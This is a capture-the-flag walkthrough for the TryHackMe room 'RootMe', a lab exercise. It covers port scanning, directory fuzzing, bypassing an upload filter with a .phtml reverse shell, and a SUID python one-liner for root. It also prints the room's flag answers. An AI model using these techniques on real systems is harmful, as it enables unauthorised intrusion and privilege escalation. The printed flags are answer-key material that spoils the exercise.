

# Rootme (THM)

- https://tryhackme.com/room/rrootme
- March 2, 2023
- easy

---

## Enumeration

### Nmap

1. 22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
2. 80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
   - cookie - PHPSESSID
   - server - Apache/2.4.29
   - title - HackIT - Home

### http

```sh
$ ffuf -u http://$IP/FUZZ -e php -w /usr/share/wordlists/common.txt
```

- found `panel`, `css`, `js`, `uploads`

## User Access

- at `uploads` directory, try to upload shell.php and no php allowed



- change with other extensions
- `.phtml` success
- listen at your attack machine with nc and access to `/uploads/shell.phtml` and get `www-data` user access

- `sudo -l` - no access
- transfer linpeas.sh to /tmp folder in www-data shell and run linpeas.sh
- Interesting findings

```
1. Vulnerable to CVE-2021-4034
2. suid
-rwsr-sr-x 1 root root 3.5M Aug  4  2020 /usr/bin/python
1. sgid
-rwsr-sr-x 1 root root 3.5M Aug  4  2020 /usr/bin/python
```

## Root Access

- find python in gtfobins for suid

```sh
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```


```sh
$ whoami
root
$ cat /var/www/user.txt
THM{y0u_g0t_a_sh3ll}
$ cat /root/root.txt
THM{pr1v1l3g3_3sc4l4t10n}
```

---
